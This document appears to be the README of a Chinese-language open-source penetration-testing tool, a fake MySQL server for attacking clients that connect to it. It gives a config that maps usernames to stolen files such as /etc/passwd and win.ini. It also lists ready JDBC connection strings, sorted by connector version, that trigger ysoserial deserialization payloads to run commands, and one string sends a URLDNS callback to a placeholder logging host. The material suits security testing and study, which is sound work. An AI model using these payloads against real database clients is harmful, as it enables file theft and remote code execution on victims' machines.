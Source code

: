 # MySQL Fake Server
[ENGLISH](README_EN.md)|简体中文

用于渗透测试过程中的假MySQL服务器，纯原生python3实现，不依赖其它包。

修改自项目https://github.com/waldiTM/python-mysqlproto

## 用途

1. MySQL服务端读取客户端文件漏洞利用
2. MySQL JDBC客户端Java反序列化漏洞利用

## 说明
1. 需要python3环境，无任何其它依赖。
2. 运行：`python server.py`
3. 需要[ysoserial](https://github.com/frohoff/ysoserial)才能用反序列化功能，支持`ServerStatusDiffInterceptor`和`detectCustomCollations`两种方式。
4. MySQL的用户名支持冒号、斜杠等特殊符号，但是能否使用还需看具体客户端环境。
5. 根据**登录用户名**返回文件读取利用报文、反序列化利用报文。
6. **推荐用法：**config.json中预置了一部分配置信息，可以自己修改添加指定用户名对应的读取文件和yso参数，详细看下面的说明

## 测试环境：
1. jdk1.8.20+mysql-connector-java 8.0.14/5.1.22(Windows下反序列化（JRE8u20）、文件读取)
2. PHPMyAdmin(Windows+Linux文件读取，可以使用相对路径读取php文件内容)
3. Navicat 12(Windows下文件读取，需要切换到mysql_clear_password认证插件)

## 使用方法
默认的config.json:

```json
{
//文件读取参数
    "fileread":{
        "win_ini":"c:\\windows\\win.ini",//key为设定的用户名,value为要读取的文件路径
        "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
        "win":"c:\\windows\\",
        "linux_passwd":"/etc/passwd",
        "linux_hosts":"/etc/hosts",
        "index_php":"index.php"
    },
//ysoserial参数
    "yso":{
        "Jdk7u21":["Jdk7u21","calc"]//key为设定的用户名,value为ysoserial参数的参数
    }
}
```

1. 文件读取：

    - 可以在config.json中fileread节中预定义好要读取的文件(比如win_ini用户名读取win.ini文件)
    - 可以用fileread_开头的用户名(例如使用用户名fileread\_/etc/passwd来读取/etc/passwd文件)

2. 反序列化
    - 可在config.json中yso节预定义好yso payload的生成参数(比如Jdk7u21用户名返回Jdk7u21执行计算器的gadget)

    - 可以用yso_开头的用户名，格式yso\_payload类型\_命令（例如jdk7u21调用calc就使用用户名yso\_Jdk7u21\_calc）

      jdbc连接串示例：
      - `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc`
      - `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_URLDNS_http://yourdns.log.addr/`

3. 关于认证：默认认证插件一般使用**mysql_native_password**,但是由于协议实现的问题，navicat下会连接失败，此时在使用的用户名后追加 **_clear** 即可切换为mysql_clear_password,navicat连接成功,读取到文件。

    - **例如：** fileread\_/etc/passwd_clear

## JDBC连接串整理

写分析的时候整理了一下：https://www.anquanke.com/post/id/203086
用户名请参考上面的说明进行修改。

### ServerStatusDiffInterceptor触发

- **8.x:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **6.x(属性名不同):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.11及以上的5.x版本（包名没有了cj）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.10及以下的5.1.X版本：** 同上，但是需要连接后执行查询。

- **5.0.x:** 还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

### detectCustomCollations触发：

- **5.1.41及以上:** 不可用

- **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.18以下的5.1.x版本：** 不可用

- **5.0.x版本不可用** 

## 效果

Navicat文件读取（用户名使用win_ini_clear）

![image-20200414150112426](README.assets/image-20200414150112426.png)

JDK 1.8.20+mysql-connector-java 8.0.14反序列化，使用用户名：yso_JRE8u20_calc

![image-20200414150417471](README.assets/image-20200414150417471.png)

## 踩过的坑

1. SHOW VARIABLES 相关
   - 会读取两列，所以需要返回两列，否则会报错。
   - JDBC连接的时候回通过调用`SHOW VARIABLES`获取服务器变量，其中最重要的是两个时区变量`system_time_zone`和`time_zone`，在getObject过程，会调用到时区相关信息，没有这两个会直接报错
2. jdbc的Blob判定条件除了字段类型为blob，还要求字段声明的org_table字段不为空，flags大于128，否则会被当做text进行解析。（com.mysql.cj.protocol.a.NativeProtocol的findMysqlType方法）
3. 原python-mysqlproto中的序列检测需要去掉，否则会出错（这个应该是哪里处理有问题导致了序号重置）。
4. `SHOW SESSION STATUS`和`SHOW COLLATION`的公用列是第二列
5. mysql java connector 5.x的环境下，需要返回的server版本大于等于5.0.0才会走到`Util.resultSetToMap`进入getObject

## 招聘了招聘~

360云安全团队目前大量招聘中，欢迎各位大佬投递简历，大家一起来愉快地玩耍~^_^

https://www.anquanke.com/post/id/200462

## 参考资料

**项目基础：**

https://github.com/waldiTM/python-mysqlproto

**漏洞相关:**

https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf

https://paper.seebug.org/1112/

https://github.com/codeplutos/MySQL-JDBC-Deserialization-Payload

**协议相关：**

https://dev.mysql.com/doc/internals/en/protocoltext-resultset.html

https://dev.mysql.com/doc/internals/en/character-set.html

https://dev.mysql.com/doc/internals/en/com-query-response.html#packet-Protocol::LOCAL_INFILE_Data
